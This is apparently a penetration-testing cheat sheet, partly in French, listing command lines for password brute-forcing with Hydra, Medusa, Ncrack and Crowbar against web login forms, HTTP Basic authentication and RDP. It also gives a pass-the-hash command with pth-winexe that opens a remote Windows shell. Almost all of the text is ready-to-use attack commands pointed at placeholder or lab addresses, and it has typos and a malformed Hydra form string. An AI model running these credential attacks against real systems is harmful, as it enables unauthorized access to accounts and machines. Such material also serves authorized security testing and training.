 ## Hydra

Login page attack

```sh
hydra -l user -P wordlist.lst <FQDN/IP> http-post-form "/login:user=^USER^&^PASS^:F=Invalid" -f
```

```sh
hydra -l user -P wordlist.lst <FQDN/IP> http-post-form "/login:user=^USER^&^PASS^:S=logout.php" -f
```

HTTP GET Attack

```sh
hydra -I -l bob -P /opt/rockyou.txt "http-get://10.10.6.224/protected:A=BASIC"
```
## Medusa

```sh
medusa -h <IP> -u user -P wordlist.lst -M <module> 
```

HTTP htaccess Attack with medusa (Basic Authentication)
Les pages avec les popus JS pour l'authentification qui utilise une protecter `.htaccess`

```sh

medusa -h 192.168.45.130 -u user -P /opt/rocyou.txt -M http -m DIR:/dvwa/login.php 
```

## Ncrack

```sh
ncrack -vv -U user.lst -P /opt/rocyou.txt <target-ip>:<protocol>
```

## Crowbar

Remote Desktop Protocl Attack with Crowbar

```sh
#crowbar -b <protcol> -S <IP> -u user -C wordlist.lst -n 2
crowbar -b rdp -S 192.168.45.130/32 -u user -C /opt/rocyou.txt -n 1
```

Passing the hash in windows

```sh
pth-winexe -U 'user%LMHASH:NTHASH' //@TARGET_IP cmd.exe
```
